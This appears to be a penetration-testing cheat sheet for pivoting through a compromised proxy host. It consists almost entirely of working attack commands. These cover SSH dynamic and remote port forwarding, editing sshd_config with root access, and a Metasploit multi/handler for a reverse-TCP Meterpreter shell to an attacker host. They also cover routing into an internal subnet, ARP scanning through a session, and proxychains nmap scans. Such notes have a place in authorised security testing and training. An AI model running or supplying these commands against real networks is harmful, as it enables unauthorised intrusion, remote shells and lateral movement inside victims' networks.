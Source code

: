 # Pivoting - SSH Socks Proxies with MSF Reverse TCP Payloads

* CASE1: Single User Access: Use OpenSSH local port forward mechanism by establishing a second SSH channel
* CASE2: Root Access: Modify OpenSSH configuration and use the remote port forward feature

## view Graphs
![Reverse Meterpreter Pivoting - 1](msf_reverse_meterpreter1.jpg)
![Reverse Meterpreter Pivoting - 2](msf_reverse_meterpreter2.jpg)


## CASE-1. low priv. user access on proxy
ssh -D 8181 blahh@proxy
ssh -L 4444:attacker:53 blahh@127.0.0.1 -g

## CASE-2.
Root Access on proxy
ssh -D 8181 -R 4444:attacker:53 root@proxy
echo "GatewayPorts yes" >> /etc/ssh/sshd_config && service ssh reload

# both CASE's cont here - attackers view:
msfconsole
set ReverseAllowProxy true
setg Proxies socks4:127.0.0.1:8181
use multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST attacker #192.168.2.102
set LPORT 53
exploit -j

# Windows - Pivot
## Discover new Hosts
use windows/gather/arp_scanner
set SESSION 1
route add 172.20.214.0 255.255.255.0 1
set RHOSTS 172.20.214.0/24
exploit

use server/socks4a
set SRVHOST 127.0.0.1
set SRVPORT 1080
run
cp /etc/proxychains.conf .
proxychains nmap -Pn -n -sT 172.20.214.10 -sV --version-all | grep -v " <--denied\|NSOCK INFO" | tee -a pivot-scan.log

tags: #proxychains #ssh 
